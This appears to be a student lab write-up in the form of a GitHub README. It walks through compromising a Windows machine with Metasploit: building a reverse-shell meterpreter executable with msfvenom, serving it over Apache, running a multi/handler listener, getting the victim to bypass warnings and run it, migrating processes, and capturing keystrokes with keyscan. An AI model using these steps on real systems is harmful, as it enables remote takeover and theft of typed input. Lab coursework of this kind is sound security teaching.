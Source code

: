 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit

### NAME:- ESWANTH KUMAR K
### REG NO: 212223040046

Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

### PROGRAM:

Find the attackers ip address using ifconfig

### Output:
![374794141-b98e3dbe-cbf4-465e-83aa-f1ac913b2a51](https://github.com/user-attachments/assets/7fb70284-b0b6-4d53-af00-a4f1daa6e134)


Create a malicious executable file fun.exe using msenom command ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe```

### Output:
![374794574-094f111d-38e4-47a4-b950-8c0544a3463e](https://github.com/user-attachments/assets/52da8a93-49f4-473c-9e73-83ce4dd000bf)


copy the fun.exe into the apache ```/var/www/html ```folder
![374794668-1a19f712-d904-4e9a-9c3f-a0f824215d01](https://github.com/user-attachments/assets/45455309-7257-40d0-9d88-bea23f8e77c3)


Start apache server ```sudo systemctl apache2 start``` 
![374794788-2944d067-02b2-43fc-9487-5f9e71c393b7](https://github.com/user-attachments/assets/556408c4-1caf-44d5-84a1-b716d9d8d76e)


Check the status of apache2 ```sudo apache2 status```
![374794908-1577dcc8-8e32-4080-8459-521367056dc0](https://github.com/user-attachments/assets/5edb1496-ba44-4478-8ba4-853f472f8a8c)

Invoke msfconsole:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server ```use multi/handler``` ```set PAYLOAD windows/meterpreter/reverse_tcp``` ```set LHOST 0.0.0.0``` ```exploit```

### Output 
![374795103-d6bd1bdb-3064-45e8-b6b1-e22d2e80209f](https://github.com/user-attachments/assets/108c6d73-63fc-415b-8b5d-5ddbeb7bdfb7)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: ```http://192.168.1.2/fun.exe``` The file "fun.exe" downloads.
![374795180-7be60e9f-2ce3-487a-9668-8bdb282e8931](https://github.com/user-attachments/assets/2d3c9bbd-30bf-4db7-8957-4760d26234a1)


Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit
![374795286-596d3916-66f9-4605-8ae4-5dd21116b77a](https://github.com/user-attachments/assets/3b6d33dd-159f-4798-926d-22dece021d73)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

#### Post Exploitation:
The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![374795471-d53176fa-7af0-4f05-b526-91713074335d](https://github.com/user-attachments/assets/70c71c8a-0ed9-42b7-a002-f07f1d50b459)


keyscan_dump Shows the keystrokes captured so far
![374795532-ec7c391d-62a6-4fdc-a2c3-ef383b6c8a57](https://github.com/user-attachments/assets/1b9359f7-97a1-4452-9cd8-4abba68f2246)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

